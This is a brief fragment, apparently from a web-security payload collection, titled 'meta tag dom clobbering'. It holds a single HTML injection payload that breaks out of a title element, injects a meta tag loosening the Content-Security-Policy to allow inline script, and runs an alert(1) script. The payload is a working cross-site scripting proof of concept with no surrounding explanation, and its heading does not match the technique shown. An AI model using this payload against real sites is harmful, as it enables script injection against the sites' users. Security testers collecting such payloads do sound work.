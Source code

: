 ### meta tag dom clobbering
```html
</title><meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-inline'"><script>alert(1)</script><title>
```

